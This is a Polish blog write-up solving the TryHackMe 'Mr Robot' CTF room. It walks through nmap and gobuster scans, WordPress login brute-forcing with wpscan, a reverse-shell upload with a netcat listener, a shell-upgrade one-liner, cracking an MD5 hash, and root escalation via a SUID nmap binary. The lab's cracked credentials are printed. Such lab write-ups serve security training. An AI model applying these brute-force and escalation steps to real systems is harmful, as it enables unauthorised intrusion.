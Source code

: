 ```yaml
---
title: Mr Robot
author: piotr
date: 2024-03-20 15:00:00 +0800
categories: [rozwiązanie]
tags: [ctf, thm]
---
```


Rozwiązanie pokoju [mrrobot](https://tryhackme.com/room/mrrobot) z platformy https://tryhackme.com/.

# Podstawowe skanowanie:

## nmap scan

```
└─$ nmap -sV 10.10.110.183
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-03-22 12:52 EDT
Nmap scan report for 10.10.110.183
Host is up (0.043s latency).
Not shown: 997 filtered tcp ports (no-response)
PORT    STATE  SERVICE  VERSION
22/tcp  closed ssh
80/tcp  open   http     Apache httpd
443/tcp open   ssl/http Apache httpd

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 18.58 seconds
```

## gobuster scan

```
└─$ gobuster dir -u 10.10.110.183 -w /usr/share/wordlists/dirb/common.txt
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.110.183
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.hta                 (Status: 403) [Size: 213]
/.htaccess            (Status: 403) [Size: 218]
/.htpasswd            (Status: 403) [Size: 218]
/0                    (Status: 301) [Size: 0] [--> http://10.10.110.183/0/]
/admin                (Status: 301) [Size: 235] [--> http://10.10.110.183/admin/]
/atom                 (Status: 301) [Size: 0] [--> http://10.10.110.183/feed/atom/]
/audio                (Status: 301) [Size: 235] [--> http://10.10.110.183/audio/]
/blog                 (Status: 301) [Size: 234] [--> http://10.10.110.183/blog/]
/css                  (Status: 301) [Size: 233] [--> http://10.10.110.183/css/]
/dashboard            (Status: 302) [Size: 0] [--> http://10.10.110.183/wp-admin/]
/favicon.ico          (Status: 200) [Size: 0]
/feed                 (Status: 301) [Size: 0] [--> http://10.10.110.183/feed/]
/images               (Status: 301) [Size: 236] [--> http://10.10.110.183/images/]
/Image                (Status: 301) [Size: 0] [--> http://10.10.110.183/Image/]
/image                (Status: 301) [Size: 0] [--> http://10.10.110.183/image/]
/index.html           (Status: 200) [Size: 1188]
/index.php            (Status: 301) [Size: 0] [--> http://10.10.110.183/]
/intro                (Status: 200) [Size: 516314]
/js                   (Status: 301) [Size: 232] [--> http://10.10.110.183/js/]
/license              (Status: 200) [Size: 309]
/login                (Status: 302) [Size: 0] [--> http://10.10.110.183/wp-login.php]
/page1                (Status: 301) [Size: 0] [--> http://10.10.110.183/]
/phpmyadmin           (Status: 403) [Size: 94]
/readme               (Status: 200) [Size: 64]
/rdf                  (Status: 301) [Size: 0] [--> http://10.10.110.183/feed/rdf/]
/robots               (Status: 200) [Size: 41]
/robots.txt           (Status: 200) [Size: 41]
/rss                  (Status: 301) [Size: 0] [--> http://10.10.110.183/feed/]
/rss2                 (Status: 301) [Size: 0] [--> http://10.10.110.183/feed/]
/sitemap              (Status: 200) [Size: 0]
/sitemap.xml          (Status: 200) [Size: 0]
/video                (Status: 301) [Size: 235] [--> http://10.10.110.183/video/]
/wp-admin             (Status: 301) [Size: 238] [--> http://10.10.110.183/wp-admin/]
/wp-content           (Status: 301) [Size: 240] [--> http://10.10.110.183/wp-content/]
/wp-config            (Status: 200) [Size: 0]
/wp-includes          (Status: 301) [Size: 241] [--> http://10.10.110.183/wp-includes/]
/wp-cron              (Status: 200) [Size: 0]
/wp-links-opml        (Status: 200) [Size: 227]
/wp-load              (Status: 200) [Size: 0]
/wp-login             (Status: 200) [Size: 2671]
/wp-settings          (Status: 500) [Size: 0]
/wp-signup            (Status: 302) [Size: 0] [--> http://10.10.110.183/wp-login.php?action=register]
/wp-mail              (Status: 500) [Size: 3064]
/xmlrpc.php           (Status: 405) [Size: 42]
/xmlrpc               (Status: 405) [Size: 42]
Progress: 4614 / 4615 (99.98%)
===============================================================
Finished
===============================================================
```

Standardowo sprawdziłem czy plik `robots.txt` istnieje, jak często się zdarza tak i tutaj plik ten istnieje i zawiera następujące informacje:

![robots.txt](/assets/img/mrrobot/01.png)

znajduje się w nazwa zasoby zawierająca pierwszą flagę `key-1-of-3.txt` oraz jakiś słownik, zapisałem go na swoim komputerze. Analizując wyniki z gobuster zauważyłem panel logowania:

```
/login                (Status: 302) [Size: 0] [--> http://10.10.110.183/wp-login.php]
```

![robots.txt](/assets/img/mrrobot/02.png)

korzystając z narzędzia takiego jak Hydra lub BurpSuite można dokonać enumeracji użytkowników. Zdecydowałem się na wykorzystanie BurpSuite z zainstalowanym rozszerzeniem TurboIntruder pozwalającym wysłać wiele requestów w krótkim czasie, po chwili nazwa użytkownika została znaleziona:
![robots.txt](/assets/img/mrrobot/03.png)

w taki sam sposób chciałem znaleźć hasło, jednak za długo wszystko trwało i postanowiłem spróbować narzędzia wpscan:

```
wpscan --url 10.10.110.183 --passwords fsocity.dic --usernames Elliot -t 35
```

jednak nadal wydajność nie była zadowalająca, przyjrzałem się bliżej liscie którą znalazłem - powód okazał się prozaiczny, lista zawierała wiele duplikatów, usunąłem je poleceniem:

```
sort fsocity.dic | uniq > pass.txt
```

i ponownie skorzystałem z narzędzia wpscan:

```
wpscan --url 10.10.110.183 --passwords pass.txt --usernames Elliot -t 35
```

po chwili dane do logowania zostały znalezione:

```
[SUCCESS] - Elliot / ER28-0652
All Found
Progress Time: 00:00:23 <===============================                           > (12 / 22) 54.54%  ETA: ??:??:??

[!] Valid Combinations Found:
 | Username: Elliot, Password: ER28-0652
```

po zalogowaniu sie do panelu postanowiłem wykorzystać reverseshell aby uzyskać połączenie z maszyną. Ze strony [pentestmonkey.net](https://pentestmonkey.net/) pobrałem revershell i wrzuciłem go na stronę, odpowiednio go zmodyfikowałem i uruchomiłem netcata. Po połączeniu się z maszyną zadbałem o stabilniejszą konsolę:

```
python -c "import pty;pty.spawn('/bin/bash')"
```

a następnie przeszedłem do lokalizacji `/home/robot` gdzie znalazłem:
![robots.txt](/assets/img/mrrobot/04.png)

cóż, pliku z flagą nie mogę odczytać (brak uprawnień), ale mogę odczytać `password.raw-md5`, zawartość:

```
robot:c3fcd3d76192e4007dfb496cca67e13b
```

prawdopodobnie jest to hash MD5 hasła użytkownika robot, szybkie zapytanie w wyszukiwarce i hasło znalezione:

```
abcdefghijklmnopqrstuvwxyz
```

![robots.txt](/assets/img/mrrobot/05.png)
hasło znalezione, użytkownik zmieniony, można odczytać następną flagę. Chwilę zapoznawałem się z systemem i odkryłem, że nmap ma ustawiony bit SUID:

```
-rwsr-xr-x  1 root root 504736 Nov 13  2015 nmap
```

korzystając z [tego](https://gtfobins.github.io/gtfobins/nmap/) uzyskałem dostęp do konta root i odczytałem ostatnią flagę.

